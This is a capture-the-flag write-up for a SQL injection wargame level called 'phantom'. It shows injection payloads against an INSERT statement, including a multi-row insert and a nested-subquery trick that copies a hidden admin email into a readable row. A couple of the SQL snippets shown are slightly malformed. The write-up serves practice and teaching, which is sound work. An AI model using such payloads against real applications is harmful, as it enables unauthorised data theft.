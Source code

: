 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/e4b143de-c5d8-47ee-bed0-8bd3a124e8cb)

We are provided with the SQL query:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')
```

This time, the table is updated based upon the parameter value that we provide.
If the `no=1`, the email will be displayed as `**************`.

In order to solve this challenge, we need to insert multiple records at the same time.
This can be done by listing multiple records in parentheses after `VALUES`, as follows:

```sql
INSERT INTO [table_name] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

If we provide the following URI parameter:

```
?joinmail=test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -
```

You can find your public IP address from [here](https://www.whatismyip.com/).

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -')
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/c0edf3a4-1f2c-46ab-bdfe-c9a23f9e5a0d)

As we can see, the two records have been inserted into the table.

In order to retrieve the email however, we will have to store it into a variable. In order to

## Storing value in variable

```sql
SELECT email FROM prob_phantom WHERE no=1 AS temp
```

In this example, the email is stored in the `temp` variable.

If we provide the following URI parameter:

```
?joinmail=test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -
```

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -')
```

The above query will store

![3](https://github.com/Kunull/Write-ups/assets/110326359/3dc3f1fe-2b74-4923-b804-537b2db133a1)

```
admin_secure_email@rubiya.kr
```

If we provide the following URI parameter:

```
?email=admin_secure_email@rubiya.kr
```

The resultant query becomes:

```sql
SELECT email FROM prob_phantom WHERE no=1 AND email='?email=admin_secure_email@rubiya.kr'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/e49215ee-88f1-4da7-abf9-55acdc7b5f77)
